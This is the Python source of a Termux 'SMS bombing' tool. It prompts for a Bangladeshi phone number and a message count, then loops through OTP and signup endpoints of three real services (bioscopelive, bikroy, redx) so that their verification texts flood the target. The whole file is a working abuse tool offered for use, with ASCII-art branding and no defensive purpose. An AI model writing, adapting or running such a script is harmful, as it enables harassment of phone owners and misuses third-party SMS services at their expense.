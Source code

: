 
import os
print("\033[1;92m [[[🥭]][[🥭]][[🥭]][[🥭]][[🥭]][[🥭]][[🥭]][[🥭]][[🥭]]] EMRAN CYBER (ROBOT) SYSTEM INSTALL. . . . \033[1;30m")
os.system("pkg install espeak")
print("\033[1;92m   [[[🥭]][[🥭]][[🥭]][[🥭]][[🥭]][[🥭]][[🥭]][[🥭]][[🥭]]] ROBOT INSTALL COMPLETE \033[1;30m")
os.system('espeak -a 300 "Robot install complete"')
print("\033[1;92m   [[[🥭]][[🥭]][[🥭]][[🥭]][[🥭]][[🥭]][[🥭]][[🥭]][[🥭]]] UPDATE CHECKING BOSS EMRAN CYBER KING EMRAN\033[1;30m")
os.system("git pull")
import os,requests,time
time.sleep(1)
os.system("clear")
os.system("clear")
logo3=("""
\033[1;99m╔════════════════════════════════════════════════════════════════════╗    
\033[1;92m█ \033[0;35m##     ##\033[1;93m ######### \033[1;91m########  \033[1;94m##        \033[1;32m##           \033[1;91m#### \033[1;93m##    ## \033[1;92m█
\033[1;93m█ \033[0;35m##     ##\033[1;93m ##    ##  \033[1;91m##     ## \033[1;94m##    ##  \033[1;32m##            \033[1;91m##  \033[1;93m###   ## \033[1;93m█
\033[1;94m█ \033[0;35m##     ##\033[1;93m      ##   \033[1;91m##     ## \033[1;94m##    ##  \033[1;32m##            \033[1;91m##  \033[1;93m####  ## \033[1;94m█ 
\033[1;95m█ \033[0;35m##     ##\033[1;93m     ##    \033[1;91m########  \033[1;94m##    ##  \033[1;32m##       \033[1;94m###  \033[1;91m##  \033[1;93m## ## ## \033[1;95m█
\033[1;96m█ \033[0;35m##     ##\033[1;93m    ##     \033[1;91m##        \033[1;94m######### \033[1;32m##            \033[1;91m##  \033[1;93m##  #### \033[1;96m█ 
\033[1;97m█ \033[0;35m##     ##\033[1;93m   ##      \033[1;91m##        \033[1;94m      ##  \033[1;32m##            \033[1;91m##  \033[1;93m##   ### \033[1;97m█ 
\033[1;91m█  \033[0;35m####### \033[1;93m  ##       \033[1;91m##        \033[1;94m      ##  \033[1;32m#########    \033[1;91m#### \033[1;93m##    ## \033[1;91m█ 
\033[1;99m╚════════════════════════════════════════════════════════════════════╝
\033[1;94m[+]===============================================================[+]
\033[1;94m[+]\033[1;32m               CREATED BY   :  BASHAR BOMBING  COPPY            \033[1;94m[+]
\033[1;94m[+]\033[1;32m               ON GITHUB    :   bashar00113525                    \033[1;94m[+]
\033[1;94m[+]\033[1;32m               TOOL VERSION :  1.0                     \033[1;94m[+]
\033[1;94m[+]\033[1;32m               NETWORK      :  4G,5G                           \033[1;94m[+]
\033[1;94m[+]\033[1;32m               TOOL STATUS  :  FREE                            \033[1;94m[+]
\033[1;94m[+]\033[1;32m               TOOL'S NAME  :  SMS BOMBING                \033[1;94m[+]
\033[1;94m[+]\033[1;32m               COUNTRY      :  BANGLADESH                      \033[1;94m[+]
\033[1;94m[+]===============================================================[+]

""")

print(logo3)
num=input("""  \033[38;5;46mTARGET NUMBER : +880""")
amount=int(input("\n  \033[38;5;46mSMS AMOUNT : "))
headers1={
			  "authority":"www.bioscopelive.com",
			  "method":"GET",
			  "scheme":"https",
			  "accept":"*/*",
			  "accept-encoding":"gzip, deflate, br",
			  "accept-language":"en-US,en;q=0.9,bn-BD;q=0.8,bn;q=0.7",
			  "if-none-match":'W/"5baf0d010507bc980255f9941283860a"',
			  "referer":"https://www.bioscopelive.com/en/login?bongoId=QPj10yOQIwI",
			  "save-data":"on",
			  "sec-ch-ua":'"Chromium";v="107", "Not=A?Brand";v="24"',
			  "sec-ch-ua-mobile":"?1",
			  "sec-ch-ua-platform":'Android',
			  "sec-fetch-dest":"empty",
			  "sec-fetch-mode":"cors",
			  "sec-fetch-site":"same-origin",
			  "user-agent":"Mozilla/5.0 (Linux; Android 10; Z28) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Mobile Safari/537.36",
			  "x-requested-with":"XMLHttpRequest"
}
url1="https://www.bioscopelive.com/en/login/send-otp?phone=880"+num+"&operator=bd-otp"
headers2={
         "referer":"https://bikroy.com/bn/users/login?action=login&stack=webapp&redirect-url=/bn/users/login-options",
         "user-agent":"Mozilla/5.0 (Linux; Android 10; Z28) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Mobile Safari/537.36"
}
url2="https://bikroy.com/data/phone_number_login/verifications/phone_login?phone=0"+num
data={
  "name": num,
  "phoneNumber": num,
  "service": "redx"
}
headers3={
  "referer":"https://redx.com.bd/",
  "user-agent":"Mozilla/5.0 (Linux; Android 10; Z28) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Mobile Safari/537.36"
}
ses=0
while amount>ses:
  sent1=requests.get(url1,headers=headers1)
  if sent1.status_code==200:
    ses+=1
    print(f"\n{ses}  \033[38;5;46m bashar  SMS WAS SENT🐼")
  else:
    pass
  
  sent2=requests.get(url2,headers=headers2)
  if sent2.status_code==200:
    ses+=1
    print(f"\n{ses} \033[38;5;46m bashar  SMS WAS SENT🐼")
  else:
    pass
  
  send3=requests.post("https://api.redx.com.bd/v1/user/signup",headers=headers3,data=data)
  if send3.status_code==200:
    ses+=1
    print(f"\n{ses} \033[38;5;46m bashar SMS WAS SENT🐼")
    
  else:
    pass
os.system("clear")
print(""" \033[1;32m

      \033[38;5;46m____  ____  _  ________
     \033[38;5;46m/ __ \/ __ \/ | / / ____/
    \033[38;5;46m/ / / / / / /  |/ / __/   
   \033[38;5;46m/ /_/ / /_/ / /|  / /___   
  \033[38;5;46m/_____/\____/_/ |_/_____/   
                            
 TNQ FOR USING OUR TOOLS 🖤
""")
